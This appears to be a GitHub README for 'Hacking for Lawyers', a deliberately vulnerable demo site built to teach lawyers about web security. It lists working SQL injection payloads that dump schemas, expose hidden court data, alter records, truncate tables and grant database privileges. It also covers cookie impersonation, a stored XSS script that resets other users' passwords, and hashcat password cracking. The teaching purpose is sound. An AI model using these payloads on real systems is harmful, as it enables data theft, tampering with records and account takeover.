 # Hacking for Lawyers

## Running the Site
The website is in docker and uses the mattrayner lamp stack. Run the code below to launch the site 
```
docker-compose build
```
If you don't want to have a permanent mysql db outside the container then get rid of the second -v tag.
```
docker-compose up -d
```
There is a shell script in the app folder called create_sql.sh. This will drop the websitedata table if it exists and reinstall from a sql file in the mysql_tables folder in app.
```
docker exec -it hacking4lawyers_webapp_1 bash
cd app_backend
bash create_sql.sh 
```


# Topics Covered
## Case Search Page

### Case Search JavaScript Manipulation

Although the dropdown on the case search page only has the options of 5 or 10 results. 
You can use inspect on chrome to modify the value of the dropdown to be any number.

### Case Search SQL Injection Queries

```
Type this into the case number search box. It can also be typed into the url as a get parameter.

Step 1: Find the custom schema and return as the case number by continually adding 'test' as test until the columns match up.
fakecasenumber' UNION ALL SELECT GROUP_CONCAT(concat(schema_name)separator ';'),'test','test','test','test','test','test','test','test' FROM INFORMATION_SCHEMA.schemata WHERE '1'='1

Step 2: Get all the table names from that custom schema.
fakecasenumber' UNION ALL SELECT GROUP_CONCAT(concat(TABLE_NAME)separator ';'),'test','test','test','test','test','test','test','test' FROM INFORMATION_SCHEMA.TABLES WHERE table_schema ='websitedata

Step 3: Get all the column names from that table
fakecasenumber' UNION ALL SELECT GROUP_CONCAT(concat(COLUMN_NAME)separator ';'),'test','test','test','test','test','test','test','test' FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME ='casedata

Step 4: Now that we have all the column names for case data we can return different items. We notice the number of columns is also the number needed for the select statement so we assume they are using an *
We also notice a column that is not displayed anywhere called "Judge". We can replace case description with Judge to print out who the Judge will be.
fakecasenumber' UNION ALL SELECT Case_Number,Case_Type,Plaintiff_Name,Plaintiff_Address,Defendant_Name,Defendant_Address,Hearing_Date,CONCAT("Judge:", Judge) as Case_Description,'test' From casedata WHERE Case_Number = '12C934902

Step 5: We notice on domestic violence cases the plaintiff addres isn't shown. Using the same trick as before we can show the plaintiff address as case description
fakecasenumber' UNION ALL SELECT Case_Number,Case_Type,Plaintiff_Name,Plaintiff_Address,Defendant_Name,Defendant_Address,Hearing_Date,CONCAT("Plaintiffs Address: ",Plaintiff_Address) as Case_Description,Judge From casedata WHERE Case_Number = '12C934902

Step 6: We test to see if it will let us run multiple queries. If the permissions aren't set right we can update or delte out information.
//Resets the hearing date for a month earlier.
fakecasenumber'; UPDATE casedata SET Hearing_Date = '10/25/2019' WHERE Case_Number = '12C934910

Step 7: We can update the defendants name to something else
//Updates the defendants name in a criminal case
fakecasenumber'; UPDATE casedata SET Defendant_Name = 'John Smith' WHERE Case_Number = '12C934910

Step 8: We can wipe out all the data using truncate.
//Please don't do during a live demo!
fakecasenumber'; TRUNCATE casedata; SELECT * FROM casedata WHERE Case_Number = '12C9349010

Step 9: Finally we can create a new user so we can simply login ourselves to more directly control the mysql server.
fakecasenumber'; GRANT ALL PRIVILEGES ON *.* TO 'hackerman'@'localhost' IDENTIFIED BY 'password
```

## Blog Post Site

### Cookie Manipulation
When the user logs in a cookie is set with the users username. This can be modified to be any user, thus becoming that user.

### SQL Injection

This can be done through modifying the username in the cookie

Test if sql injection works
```
mstubenberg' OR '1' = '1
```
Replace password for user
```
fakeuser' UNION ALL SELECT "test" as test,password FROM users WHERE username = 'attorney1
```
Get all the users information using ID
```
fakeuser' UNION ALL SELECT username,password FROM users WHERE ID = '2
```

### Bypass JavaScript input validation

On the user registration page, when the user clicks "Create," an error
message will appear if the username field is empty, if the password is
empty, or if the e-mail address is not a valid e-mail address.

If the user uses "Inspect" to look at the "Create" button, he or she
will see that there is an "event" attached to the button, and the
button has the id `create`.  The user can also see from the page
source that the site uses JQuery.

To get around client-side input validation, enter the following into
the JavaScript Console.

```
$("#create").off();
```

Then click the "Create" button.

### JavaScript Injection

You can add javascript directly into the text box for a post which is
then executed by the users browser.

Testing if it's possible
```
<script>
console.log("It worked!");
</script>
```

Script to change the password of the user and then log them out unless they are the user "hackerman"
Note: This one should be dropped as an example because it then prohibits any of the audience from playing with the site.
```
    <script>
       setTimeout(function(){
           console.log("It worked");
           if($("#accountinfousername").text() != "hackerman"){
                if($("#logoutbutton").length > 0 && $("#resetpasswordsuccess").length == 0){
                    $("#resetpassword").val("pa$$word");
                    $("#resetpasswordbutton").click();
                }else if($("#resetpasswordsuccess").length > 0){
                    $("#logoutbutton").click();
                }else{
                    console.log("Waiting for user to login");
                }
            }

        },1000); 
    </script>
```

## Cracking Passwords 
This is all on the pass_cracker folder.

### Encrypting passwords

`passwords.txt` has a list of passwords that people might use. (well, hopefully not, because they're extra weak for demonstration purposes)

Use `hash.sh` to encrypt passwords with the (very insecure, so only for demo purposes) md5 algorithm. 

```./hash.sh```

The new `secrets.md5` file is the hashed version of the passwords. 

### Decrypting them

Run `./dehash.sh`. 

This compares the hashes of the words in `wordlist.txt` to the hashes in `secrets.md5`. 

If `hashcat` can find a word in `wordlist.txt` with a hash that matches one in `secrets.md5`, it knows that hash came from the word in the wordlist.



## To Do:
1. I think the blog site should have additional options if the user is "admin". Then using the cookie trick you can log in as admin and delete posts.
2. I think real world examples of each of these would be useful. Show an example then show a news clip of a company that actually had this vulnerability.
3. I'd like to demonstrate a man in the middle attack. Maybe brining our own wireless network? 
4. Showing a password cracker live in the background somehow that we start at the beginning and check how many we've cracked at the end would be cool.
